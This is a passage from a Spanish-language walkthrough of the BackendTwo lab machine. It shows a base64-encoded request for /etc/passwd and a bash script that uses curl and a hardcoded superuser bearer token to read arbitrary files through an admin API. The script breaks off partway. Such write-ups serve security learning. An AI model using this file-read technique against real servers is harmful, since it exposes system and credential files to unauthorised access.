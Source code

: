 Ahora que podemos hacer cosas de administrador, procedemos a listar los directorios para recolectar informacion del servidor, ya que lopide en base64 usaremos el siguiente comando:

```s
echo -n /etc/passwd | base64
```

![/etc/passwd](/assets/images/BackendTwo/etc_passwd.png)

Ahora que tenemos acceso a la lectura y escritura, podremos crear un exploit o un script en bash para automatizar los requests de estas consultas, como el siguiente:

```bash
#!/bin/bash

#Colours
greenColour="\e[0;32m\033[1m"
endColour="\033[0m\e[0m"
redColour="\e[0;31m\033[1m"
blueColour="\e[0;34m\033[1m"
yellowColour="\e[0;33m\033[1m"
purpleColour="\e[0;35m\033[1m"
turquoiseColour="\e[0;36m\033[1m"
grayColour="\e[0;37m\033[1m"

function ctrl_c(){
  echo -e "\n\n${redColour}[!] Saliendo...${endColour}"
  exit 1
}

function helpPanel(){
  echo -e "\n${yellowColour}[+]${endColour}${grayColour} Uso: ${endColour}"
  echo -e "\t${purpleColour}[+]${endColour}${grayColour} Nombre de archivo a leer${endColour}"
  echo -e "\t${purpleColour}[+]${endColour}${grayColour} Mostrar este panel de ayuda${endColour}"
  exit 1
}

function getFilename(){
  filename="$1"
  filename_base64="$(echo -n $filename | base64 -w 0)"
  
  curl -s -X GET "http://10.10.11.162/api/v1/admin/file/$filename_base64" -H 'accept: application/json' -H 'Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ0eXBlIjoiYWNjZXNzX3Rva2VuIiwiZXhwIjoxNjU0NTc2NDE0LCJpYXQiOjE2NTM4ODUyMTQsInN1YiI6IjEyIiwiaXNfc3VwZXJ1c2VyIjp0cnVlLCJndWlkIjoiYWUwMWJjOTItMjc5Ny00NzVlLTk4NjctOWE5NzEwMjBkYmUxIn0.GT8BGpzeGVkJryDXpzn2LL-tMVNmKfk61lDnNPF9pF8' | jq -r '.file' | tr '\u000' '\n'
}

#Ctrl+c
trap ctrl_c INT

declare -i delimiter_counter=0; while getopts "f:h" arg; do
  case $arg in
    f) filename=$OPTARG && delimiter_counter+=1;;
    h) helpPanel;;
```
